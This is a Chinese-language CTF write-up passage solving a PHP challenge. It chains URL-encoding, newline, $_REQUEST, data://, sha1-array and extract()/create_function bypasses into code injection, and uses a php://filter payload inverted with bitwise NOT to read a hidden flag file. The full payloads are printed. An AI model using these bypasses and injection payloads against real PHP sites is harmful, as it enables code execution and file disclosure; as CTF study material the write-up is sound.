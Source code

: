 第一个，`$_SERVER[‘QUERY_STRING’]`解析字符串时不会进行url解码，所以可以用url编码绕过，而`$_GET['x']`是会进行url解码的，所以我们要把可能出现在黑名单的字符串进行url编码后再传入

第二个，`preg_match`没开m多行匹配，所以可以用多行绕过，需要注意相关关键词需要url编码绕过第一层
![在这里插入图片描述](https://img-blog.csdnimg.cn/4e5dfe46ca634c3aa5eb0d86925b6be1.png)
第三个，`$_REQUEST`同时接收`$_POST`和`$_GET`变量，POST优先级高于$_GET，所以这里POST传GET相应变量没字母的`值`即可
![在这里插入图片描述](https://img-blog.csdnimg.cn/34f631bd7e9f46d3990060840e064198.png)
第四个，`file_get_contents()`需要传入字符串，data://伪协议
![在这里插入图片描述](https://img-blog.csdnimg.cn/642587273ca54eb7999f4f763d62f08b.png)
第五个,sha1传数组或者两个加密内容为0e开头的都行
`sh%61%6ea[]=1&pa%73%73%77d[]=2`
![在这里插入图片描述](https://img-blog.csdnimg.cn/ac352bfaaff445afa10be0be13cc5104.png)
第六个，extract变量覆盖
传一个flag覆盖一下code变量值和arg变量值
![在这里插入图片描述](https://img-blog.csdnimg.cn/b7e3e002a9da4f4794bfb48dfff7f44a.png)
`fl%61g[c%6fde]=create_function&fl%61g[%61rg]=}var_dump(get_defined_vars());//`

完整payload:
`file=data://te%78%74/pl%61%69%6e,de%62%75_de%62%75_aq%75%61
&de%62%75=aq%75%61_is_cu%74%65%0a
&sh%61%6ea[]=1
&pa%73%73%77d[]=2
&fl%61g[c%6fde]=create_function
&fl%61g[%61rg]=}var_dump(get_defined_vars());//`
![在这里插入图片描述](https://img-blog.csdnimg.cn/cdfbc40b37d847a683b7c4b6ca5cfb70.png)

发现flag好像在`rea1fl4g.php`
![在这里插入图片描述](https://img-blog.csdnimg.cn/68943f7ff94c4c3ebea864459f458bfb.png)
没东西，可以通过之前尝试包含该文件，然后dump所有变量`get_defined_vars()`
直接拉过来大佬的payload吧
`fl%61g[c%6fde]=create_function
&fl%61g[%61rg]=}require(base64_dec%6fde(cmVhMWZsNGcucGhw));var_dump(get_defined_vars());//
//%6c为url编码的o，为了绕过黑名单
`
文件名base64编码绕过滤
![在这里插入图片描述](https://img-blog.csdnimg.cn/a9ca4317b3ec4cf49d22bdee8215f5b3.png)
假flag....直接抄作业了

```php
<?php
$a="php://filter/read=convert.base64-encode/resource=rea1fl4g.php";

echo urlencode(~$a);
?>
//%8F%97%8F%C5%D0%D0%99%96%93%8B%9A%8D%D0%8D%9A%9E%9B%C2%9C%90%91%89%9A%8D%8B%D1%9D%9E%8C%9A%C9%CB%D2%9A%91%9C%90%9B%9A%D0%8D%9A%8C%90%8A%8D%9C%9A%C2%8D%9A%9E%CE%99%93%CB%98%D1%8F%97%8F


```
